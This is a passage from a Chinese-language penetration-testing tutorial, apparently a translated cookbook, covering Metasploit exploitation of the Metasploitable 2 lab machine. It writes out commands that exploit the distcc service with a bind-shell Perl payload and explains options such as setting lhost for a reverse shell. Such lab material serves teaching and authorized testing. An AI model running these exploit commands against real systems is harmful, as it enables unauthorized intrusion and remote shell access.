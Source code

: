     ```

输出将如下截图所示：

![如何做...](img/image_04_030.jpg)

1.  利用成功运行，并且我们已经进入了系统的根目录。让我们来看看我们在对 Metasploitable 2 进行漏洞评估扫描时发现的另一个漏洞。在终端中输入以下命令：

```
          search distcc
          use exploit/unix/misc/distcc_exec
          set payload cmd/unix/bind_perl
          set rhost <Target IP address>
          exploit

    ```

输出将如下截图所示：

![如何做...](img/image_04_031.jpg)

## 工作原理...

Metasploit 是一个提供了很多功能的框架，从枚举、利用到帮助编写利用。我们上面看到的是 Metasploit 利用的一个示例。让我们了解一下在前面的`vsftpd`场景中发生了什么：

+   搜索 vsftpd：这将在 Metasploit 数据库中搜索与`vsftpd`相关的任何信息

+   `use (exploit)`: 这指定了我们想要准备执行的利用

+   `set lhost`: 这将设置我们机器的本地主机 IP 以获取一个反向 shell

+   `set rhost`: 这将设置目标 IP 以启动利用

+   `set payload (payload path)`: 这指定了在成功完成利用后我们想要执行的操作

## 还有更多...

Metasploit 还提供了社区版的图形界面版本。建议查看一下。可以在[`www.offensive-security.com/metasploit-unleashed/`](https://www.offensive-security.com/metasploit-unleashed/)找到使用 Metasploit 的详细指南。

# 利用有漏洞的服务（Windows）

在这个步骤中，我们将利用 Windows 中的有漏洞服务。为了理解这一部分，我们有一个运行着一些有漏洞软件的 Windows 7 系统。我们将进行快速枚举，找到漏洞，并使用 Metasploit 进行利用。

```